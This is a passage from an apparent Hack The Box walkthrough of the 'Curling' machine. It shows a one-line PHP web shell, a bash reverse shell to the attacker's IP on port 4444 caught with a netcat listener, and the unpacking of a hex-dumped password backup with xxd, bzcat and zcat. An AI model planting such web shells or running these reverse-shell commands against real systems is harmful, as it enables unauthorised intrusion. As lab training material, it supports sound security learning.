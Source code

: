 ```
<?php system($_REQUEST['cmd']); ?>
```
Now let's use index.php to pop a shell.  
Let' create a shell file b0d.sh containing:
```
bash -i &> /dev/tcp/10.10.14.18/4444 0>&1
```
Let's host it using SimpleHTTPServer on port 80 and run the following request:  
```
[root@kali ~ ]$ nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.150] 36214
bash: cannot set terminal process group (1298): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$
```
And we do get a shell as www-data.  
Now, if we try to read the user's flag we do get permission denied. obviously, we do not have the permisison to read this file:
```
www-data@curling:/home/floris$ cat user.txt
cat: user.txt: Permission denied
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```
we can see that there is a password_backup file, now there is a bit of stego challenge.  
Process of deobfuscation will be listed below as everything is quite straight forward:
```
www-data@curling:/home/floris$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$ xxd -r password_backup
BZh91AY&SYHAP)ava:4NnT#@%`
"n                         z@i4hdi9hQdh4i5nh*}y.<~x>    sVTzHߢ1V`Fs
  ۇ7j:XdRk )p7۫;9PCYP    HB*     G U@rrE8PH
www-data@curling:/home/floris$ xxd -r password_backup > /tmp/1
www-data@curling:/home/floris$ cd /tmp/
www-data@curling:/tmp$ file 1
1: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ bzcat 1
l[passwordrBZh91AY&SY6Ǎ@@Pt t"dhhOPIS@68ET>P@#I bՃ|3x(*N&Hk1x"{]B@6m
www-data@curling:/tmp$ bzcat 1 > 2
www-data@curling:/tmp$ file 2
2: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ zcat 2
BZh91AY&SY6Ǎ@@Pt t"dhhOPIS@68ET>P@#I bՃ|3x(*N&Hk1x"{]B@6
www-data@curling:/tmp$ zcat 2 > 3
```